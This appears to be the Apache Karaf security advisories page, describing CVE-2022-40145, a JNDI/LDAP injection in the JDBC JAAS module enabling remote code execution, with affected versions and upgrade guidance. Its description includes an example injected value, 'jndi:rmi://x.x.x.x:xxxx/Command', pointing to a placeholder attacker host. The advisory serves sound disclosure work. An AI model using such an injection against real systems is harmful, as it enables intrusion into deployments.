 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the  [Apache Security Team](mailto:security@apache.org).

# Advisories

This page is experimental: it provides consistent access to the advisories for Apache Karaf since 2023 in text and CVE JSON format. It may lag slighly behind the official CVE publications. 

If you have any feedback on how you would like this data to be presented, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)

## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

[CVE-2022-40145](./CVE-2022-40145.cve.json)

### Affected

* Apache Karaf from 4.4.0 before 4.4.2
* Apache Karaf before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

### References
* https://karaf.apache.org/security/cve-2022-40145.txt
